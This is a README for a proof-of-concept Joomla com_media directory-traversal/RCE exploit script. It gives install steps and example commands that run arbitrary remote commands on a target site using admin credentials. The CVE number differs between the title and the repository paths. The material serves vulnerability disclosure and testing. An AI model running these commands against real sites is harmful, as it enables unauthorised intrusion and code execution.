# Joomla RCE (CVE2021-23132).
[![Python3.x](https://img.shields.io/badge/python-3.x-FADA5E.svg?logo=python)](https://www.python.org/) [![PEP8](https://img.shields.io/badge/code%20style-pep8-red.svg)](https://www.python.org/dev/peps/pep-0008/)

com_media allowed paths that are not intended for image uploads to RCE.

A vulnerability, which was classified as critical, has been found in Joomla! 3.0.0 through 3.9.24 (Content Management System). This issue affects an unknown function of the component com_media. The manipulation with an unknown input leads to a directory traversal vulnerability.

This script is PoC to able to use Directory Traversal or Remote Code Execution (RCE) mode.

Directory Traversal to trigger RCE.

## Installation

```
git clone https://github.com/CyberCommands/CVE2021-23123.git
```
```
cd CVE-2021-23123/
```
```
pip install -r requirements.txt
```
```
python3 joomla_rce.py --help
```
*_For Example:_*

```
python3 joomla_rce.py -l http://target.com -u admin -p 1234 -rce 1 -cmd ls
```
or
```
python3 joomla_rce.py -l http://192.168.77.100 -u admin -p 1234 -rce 1 -cmd ls
```

### Disclaimer

This tool is only for testing and educational purposes only and can be used where strict consent has been given. I am not responsible for any misuse or damage caused by this tool.

### References

[Security Announcements](https://developer.joomla.org/security-centre/846-20210306-core-com-media-allowed-paths-that-are-not-intended-for-image-uploads.html)
